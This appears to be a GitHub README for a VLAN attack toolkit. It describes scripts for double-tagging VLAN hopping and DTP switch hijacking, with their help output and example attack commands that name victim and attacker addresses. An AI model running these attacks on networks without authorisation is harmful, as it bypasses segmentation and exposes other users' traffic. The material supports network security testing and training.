 # VLANPWN
VLAN attacks toolkit

**The author has nothing to do with those who will use these tools for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

**ᛝ**

**DoubleTagging.py** - This tool is designed to carry out a VLAN Hopping attack. As a result of injection of a frame with two 802.1Q tags, a test ICMP request will also be sent.

**DTPHijacking.py** - A script for conducting a DTP Switch Spoofing/Hijacking attack. Sends a malicious DTP-Desirable frame, as a result of which the attacker's machine becomes a trunk channel. The impact of this attack is that you can bypass the segmentation of VLAN networks and see all the traffic of VLAN networks.

```
python3 DoubleTagging.py --help

.s    s.  .s        .s5SSSs.  .s    s.  .s5SSSs.  .s s.  s.  .s    s.
      SS.                 SS.       SS.       SS.    SS. SS.       SS.
sS    S%S sS        sS    S%S sSs.  S%S sS    S%S sS S%S S%S sSs.  S%S
SS    S%S SS        SS    S%S SS`S. S%S SS    S%S SS S%S S%S SS`S. S%S
SS    S%S SS        SSSs. S%S SS `S.S%S SS .sS::' SS S%S S%S SS `S.S%S
 SS   S%S SS        SS    S%S SS  `sS%S SS        SS S%S S%S SS  `sS%S
 SS   `:; SS        SS    `:; SS    `:; SS        SS `:; `:; SS    `:;
  SS  ;,. SS    ;,. SS    ;,. SS    ;,. SS        SS ;,. ;,. SS    ;,.
   `:;;:' `:;;;;;:' :;    ;:' :;    ;:' `:        `:;;:'`::' :;    ;:'

VLAN Double Tagging inject tool. Jump into another VLAN!

Author: @necreas1ng, <necreas1ng@protonmail.com>

usage: DoubleTagging.py [-h] --interface INTERFACE --nativevlan NATIVEVLAN --targetvlan TARGETVLAN --victim VICTIM --attacker ATTACKER

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Specify your network interface
  --nativevlan NATIVEVLAN
                        Specify the Native VLAN ID
  --targetvlan TARGETVLAN
                        Specify the target VLAN ID for attack
  --victim VICTIM       Specify the target IP
  --attacker ATTACKER   Specify the attacker IP
  ```
  Example:
  
  ```
  python3 DoubleTagging.py --interface eth0 --nativevlan 1 --targetvlan 20 --victim 10.10.20.24 --attacker 10.10.10.54
  ```
  
  ```
  python3 DTPHijacking.py --help
  
.s    s.  .s        .s5SSSs.  .s    s.  .s5SSSs.  .s s.  s.  .s    s.
      SS.                 SS.       SS.       SS.    SS. SS.       SS.
sS    S%S sS        sS    S%S sSs.  S%S sS    S%S sS S%S S%S sSs.  S%S
SS    S%S SS        SS    S%S SS`S. S%S SS    S%S SS S%S S%S SS`S. S%S
SS    S%S SS        SSSs. S%S SS `S.S%S SS .sS::' SS S%S S%S SS `S.S%S
 SS   S%S SS        SS    S%S SS  `sS%S SS        SS S%S S%S SS  `sS%S
 SS   `:; SS        SS    `:; SS    `:; SS        SS `:; `:; SS    `:;
  SS  ;,. SS    ;,. SS    ;,. SS    ;,. SS        SS ;,. ;,. SS    ;,.
   `:;;:' `:;;;;;:' :;    ;:' :;    ;:' `:        `:;;:'`::' :;    ;:'

DTP Switch Hijacking tool. Become a trunk!

Author: @necreas1ng, <necreas1ng@protonmail.com>

usage: DTPHijacking.py [-h] --interface INTERFACE

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Specify your network interface
```
Example:

```
python3 DTPHijacking.py --interface eth0
```
